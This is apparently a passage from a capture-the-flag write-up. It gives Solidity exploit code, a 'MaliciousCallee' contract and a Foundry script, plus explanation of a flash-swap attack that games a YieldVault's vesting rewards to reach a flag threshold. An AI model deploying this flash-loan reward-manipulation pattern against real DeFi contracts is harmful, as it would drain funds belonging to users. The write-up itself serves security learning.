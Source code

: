```solidity
        htoToken.approve(address(swapContract), 200000002);
        swapContract.swap(0, 200000002, address(this), "");
        console.log("balance of HTOToken after calling swap() : ", htoToken.balanceOf(address(this)));
        console.log("balance of wETH after calling swap() : ", wETH.balanceOf(address(this)));
        console.log("Since we have more than 100000000 wETH after swapping it by using HTOToken, we can call flag() to get the flag");
        string memory flag = wETH.flag();
        console.log("Flag:", flag);
        console.log("balance of wETH after calling flag() : ", wETH.balanceOf(address(this)));
        console.log("You can see the wETH get burned after calling flag()");
    }

    function getFlag() external view returns (string memory) {
        return flag;
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external override returns (bytes4) {
        // Log the receipt of the ERC721 token (optional)
        console.log("Token Id of ERC721 token received:", tokenId);

        // Return the selector to confirm the token transfer
        return this.onERC721Received.selector;
    }
}
```

This contract is designed to exploit the Yield Vault system. It implements the UniswapV2 callback interface to perform a flash swap, borrowing `WETH` from the `Swap` contract. It then deposits the borrowed `WETH` into the `YieldVault`, claims `HTO` tokens rewards via `vesting()`, and withdraws the `WETH` in return it back to `YieldVault` to fulfill the require statement, `require(balanceAfter >= balanceBefore)`. Finally, in the `swap()`, it swaps the `HTO` tokens back for WETH to exceed the threshold required to call the `flag()` function in the `WETH` contract and obtain the flag.

`Exploit.s.sol`:

```solidity
function run() public {
    vm.startBroadcast();
    MaliciousCallee callee = new MaliciousCallee(vm.envAddress("Swap"), vm.envAddress("WALLET"), vm.envAddress("WETH"), vm.envAddress("HTOToken"), vm.envAddress("YieldVault"));
    vm.warp(1000);
    swap.swap(200000002, 100000001, address(callee), "d");
    callee.swap();
    vm.stopBroadcast();
}
```
This script automates the exploitation process. It deploys the `MaliciousCallee` contract, manipulates the blockchain timestamp by using `vm.warp()`, and triggers the exploit by calling the `swap()` function with crafted parameters. The script orchestrates the attack flow, ultimately retrieving the flag from the `WETH` contract.
